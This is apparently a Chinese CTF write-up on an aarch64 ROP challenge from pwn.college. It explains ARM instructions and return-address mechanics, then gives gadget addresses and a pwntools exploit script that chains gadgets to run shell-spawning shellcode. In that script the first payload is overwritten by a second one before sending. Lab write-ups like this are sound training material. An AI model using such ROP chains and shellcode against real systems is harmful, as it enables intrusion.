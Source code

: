 ```yaml
---
title: pwn-college的一道arm rop题
date: 2024-10-13
categories: beyond-ctf
tag: arm
---
```

# 前言
最近是在[Rocket](https://rocketmadev.github.io/)安利下去看了[pwncollege](https://pwn.college/)这个网站，然后感觉还不错，armdojo已经快刷完了，就差一题！！！但是最后一题好难啊，看了好几个小时没思路。
# arm中rop所需要了解的知识
首先arm的rop和x86中差了非常多，所以这里介绍一下差别，顺便带一下道场中别的知识包括汇编指令和在栈溢出学习中发现的不同。
## aarch64汇编指令
1. aarch64是arm的64位的叫法，就像x86-64和x86一样。
2. arm中的寄存器有整整30个！
其中函数传参时前八个参数使用X0-X7，后续参数放在栈上。
而syscall时前八个参数依然是X0-X7
以及很重要的X30寄存器也就是LR寄存器，其作为函数返回地址保存的寄存器，函数返回将会无条件跳转至X30。
3. arm架构下，所有的指令是4个字节定长的！！其带来了很多神奇的与x86不同的特性，按我的话说，成也定长，败也定长。
    1.  细说一下，比如"mov rax, 0x2024202520262027"这个指令可以直接在x86中一步完成，
        但是在arm中，收到指令定长为4的限制，无论如何不可能出现超过两个字节的立即数。
        arm的解决办法如下
        ```asm
        MOV  X0 0x2027
        MOVK X0 0x2026, LSL #16
        MOVK X0 0x2025, LSL #32
        MOVK X0 0x2024, LSL #48
        ```
        通过位移的方式赋值，最多一次赋值两个字节。
    2.  然后是add,sub,smull,sdiv指令等等，其支持三个操作数的特性使其比x86更加灵活。
        ```asm
        ADD X0, X1, X2
        ```    
        就是`X0 = X1 + x2`的功能，可以发现其在x86中是完全不可能一条指令实现的。
        这只是最简单的，更详细的可以在[arm开发者手册通常指令](https://developer.arm.com/documentation/dui0802/b/A64-General-Instructions/A64-general-instructions-in-alphabetical-order)[arm开发者手册数据转换指令][def]中找到更详细的内容
    3.  还有很重要的`LDR`和`LDP`指令，是从地址中加载数据到寄存器。
        ```asm
        MOV X3, sp
        LDR X0, [X3]
        ```
        LDR是`load addr`加载地址，LDP是`load addr pair`成对加载地址
        比如这条指令从[X3+8]的位置加载出来0x10的内存，前0x8的内存加载给X1,后0x8的内存加载给X2。
        ```asm
        LDP X1, X2, [X3, #0x8]
        ```
        与`LDR`和`LDP`对应的是`STR`和`STP`，其功能显然就是反过来，所以懒得说了。
    4.  arm有三种索引方式，`preindex``postindex``offset`，其原理都是基于一个基址寄存器加上一个偏移取地址。
        1. 比如`LDR X0, [SP , #0x90]`就是offset取地址，其不改变SP的值直接从[SP+0x90]的位置取出0x8大小的内存赋值给X0。
        2. `LDR X0, [SP, #0x90]!`则是先对SP+=0x90，再从[SP]的地址取出0x8大小的内存赋值给X0
        3. `LDR X0, [SP], #0x90`则是先从SP取出内存赋值，再使得SP+=0x90
        可以发现其功能比x86强大很多，也许是因为固定四个字节的指令长度强迫其必须在一条指令中实现更多功能，否则如果按照x86的设计逻辑，代码段的长度会长非常多。
        不过有一点非常可惜的是arm中没有直接的push和pop指令，而是通过LDR来实现push和pop等对于栈的操作。
接下来具体的到题目中分析

# ARM-ROP
arm中函数返回地址的取值并非x86中直接从栈上取，而且我目前了解到clang和gcc编译的arm程序的返回地址取值都有着一定区别。这题是clang编译的，所以首先说clang编译的程序机制。

`RET`指令在x86中意味着`pop rip`，而在arm中意味着`B X30`，B是arm的无条件跳转指令，也就是说每当arm函数返回时，其无条件跳转至X30的地址。

与X30一对的是X29，X29类似于一个rbp，作为辅助来维持栈的结构，但是很少被真正用来索引，我也没有见过像x86中的`mov rsp, rbp`这种可以利用rbp的情况发生，甚至连函数内部的变量索引都很少用到X29。

每当新函数被调用，就会将X29，X30的值保存在栈上，然后在返回时取出并且跳转至X30，看似栈溢出劫持程序流的思路依然可行对吧，但是实际上这比x86中难了一个档。

![clang-ret](./arm-rop/clang_ret.png)

图中可以看到，程序从[SP+0x50]的位置加载出X29和X30，当我们在challenge函数中存在栈溢出时，对于challenge函数的返回地址劫持就成功了。

可以对比一下x86和arm的区别
```asm
mov rsp, rbp
ret
```
x86固定从栈顶取返回地址。而arm的返回地址固定从SP+多少多少取，而这个值就取决于函数栈帧大小，所以从sp到sp+多少多少这段栈帧都必须被覆盖才能写到下一个函数的返回地址。
而且，arm的`RET`指令还依赖于`LDP X29, X30, [SP],#0x20`，必须由该指令加载X30后RET才能正确返回。
而且，arm还是定长指令，不存在x86中可以通过错位构造一些gadget的情况。
还有就是，x86中经常出现函数末尾pop来恢复寄存器然后返回，但是在arm中我经常只能看到对于X19和X20的恢复，也许是因为arm的寄存器太多了，太阔了吧QAQ

说了这么多，还是上图片吧。这样讲就很明显了，由于
![stack](./arm-rop/stack.png)

# 程序分析
arm道场系列里第一个module是熟悉一下aarch64的各种指令，手写各种指令做一下简单操作。第二个module是rop，所以贯穿始终的都是超长超大的栈溢出。

![main_ida](./arm-rop/main_ida.png)
main里面几乎没有任何内容，然后是challenge函数。
![challenge](./arm-rop/challenge.png)
直接给了一个栈地址，然后给了超大栈溢出。
还有就是该函数是静态编译的，所以有特别多gadget。

由于上面说到的种种困难，我在寻找gadget时有点卡住了，不过最后，让我找到了非常好用的两个gadget
```
0x43e980 : ldp x19, x20, [sp, #0x10] ; ldp x21, x22, [sp, #0x20] ; ldp x23, x24, [sp, #0x30] ; ldp x25, x26, [sp, #0x40] ; ldp x27, x28, [sp, #0x50] ; ldp x29, x30, [sp], #0x130 ; ret
# x19-x30

0x42f278 : ldr x3, [x21, #0x38] ; mov x1, x23 ; mov x2, x20 ; mov x0, x19 ; blr x3
```
单单通过栈就能控制x19-x30的寄存器，然后再控制x0，x1，x2，x3，通过x3继续控制程序流，不得不说，还好这题给了栈的值，要不就没法通过x21控制x3了。
## exp
```python
from pwn import *
import os
os.environ['QEMU_LD_PREFIX'] = '/usr/aarch64-linux-gnu'
context(terminal = ['tmux','splitw','-h'], arch = "aarch64", log_level = "debug")
io = gdb.debug('./pwn')

io.recvuntil(b'at: ')
stack = int(io.recv(0xe), 16)
print(hex(stack))

shellcode = asm(shellcraft.aarch64.sh())

payload = b''
payload += b'/flag\x00' + p64(0x43E568) # x3
payload += b'\x00'*0x29 + p64(0x0) # x29
payload += p64(0x43e980) # x30
payload += p64(0x0) + p64(0x42f278) # x29, x30
payload += p64((int(stack/0x1000)*0x1000)) + p64(0x7) # x19(x0), x20(x2)
payload += p64(stack + 6 - 0x38) + p64(0x0) # x21, x22
payload += p64(0x1000) + p64(0x0) # x23(x1), x24
payload += p64(0x0) + p64(0x0) # x25, x26
payload += p64(0x0) + p64(0x0) # x27, x28
payload += shellcode + b'\x00'*(0xD0-len(shellcode))
payload += p64(0x0) + p64(stack + 0xa7)

payload = b''
payload += b'/flag\x00' + p64(0x0) # x3
payload += b'\x00'*0x29 + p64(0x0) # x29
payload += p64(0x401878) # x30
io.send(payload)

io.interactive()
```
